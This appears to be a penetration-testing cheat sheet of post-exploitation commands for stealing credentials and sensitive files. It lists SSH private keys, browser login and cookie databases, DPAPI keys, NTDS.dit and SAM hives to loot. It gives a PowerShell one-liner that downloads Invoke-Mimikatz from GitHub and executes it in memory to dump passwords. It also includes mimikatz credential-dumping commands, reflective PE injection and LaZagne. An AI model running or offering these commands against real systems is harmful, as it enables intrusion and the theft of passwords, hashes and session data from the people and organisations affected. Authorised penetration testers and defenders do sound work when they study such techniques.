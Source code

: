 ### git folder
```
directory name = .git
python3 git_extract.py gitfilename
```
### Private key
```
.ssh/id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
bitvise ssh private key path on windows
```
C:\Users\username\.ssh\id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
### Sensitive files
```
find *.log, passwd, username, credential
C:\Users\username\Documents
C:\Users\username\Downloads
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
ConsoleHost_history.txt
.github folder
setupinfo
setupinfo.bak
*.bak, *.db
*.pdf
*.zip
*.7z
*.gz
*.sitx
*.rar
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Google\Chrome\User Data\Local State
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Microsoft\Edge\User Data\Local State
%APPDATA%\Roaming\Microsoft\Protect\<SID> -> DPAPI Keys
%SystemRoot%\NTDS\ntds.dit(Active Directory database)
%SystemRoot%\System32\winevt\Logs\Microsoft-Windows-TerminalServices-LocalSessionManager%4Operational.evtx(Windows event logs)
```
### Linux Web Service
```
Check all the folders and files under var/www/html
```
### tcpdump to capture packets 
```
tcpdump -i any udp -vvv
```
### History
```
Linux:
check all user's .bash_history
/home/user/.bash_history
```
### Password Hash
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
Mimikatz - sekurlsa::logonpasswords  
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit  
lsadump::cache  
sekurlsa::tickets


Load DemoEXE and run it locally.  
```
$PEBytes = [IO.File]::ReadAllBytes('DemoEXE.exe')  
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "Arg1 Arg2 Arg3 Arg4"
https://github.com/KiritoLoveAsuna/Penetration-Testing/blob/main/Invoke-ReflectivePEInjection.ps1
```
Pwdump
>It is recommended to extrast hashes using both mimikatz and pwdump

### Password Retriver
```
laZagne.exe all
```
